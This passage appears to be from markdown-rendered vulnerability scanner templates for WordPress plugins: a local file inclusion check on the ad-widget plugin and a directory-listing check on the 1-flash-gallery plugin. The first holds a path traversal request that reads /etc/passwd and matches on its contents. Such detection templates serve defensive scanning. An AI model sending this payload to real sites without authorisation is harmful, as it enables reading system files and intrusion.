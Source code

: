 - severity - high
- tags - wordpress,wp-plugin,lfi,wp,adWidget,wpscan

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/ad-widget/views/modal/?step=../../../../../../../etc/passwd%00

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# WordPress 1 flash gallery listing

## Description

- Searches for sensitive directories present in the 1-flash-gallery plugin.
- severity - info
- tags - wordpress,listing

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/1-flash-gallery/
- {{BaseURL}}/blog/wp-content/plugins/1-flash-gallery/

### Matchers

**Type - word**

- words
  1. Index of
  2. /wp-content/plugins/1-flash-gallery
- condition - and

**Type - status**

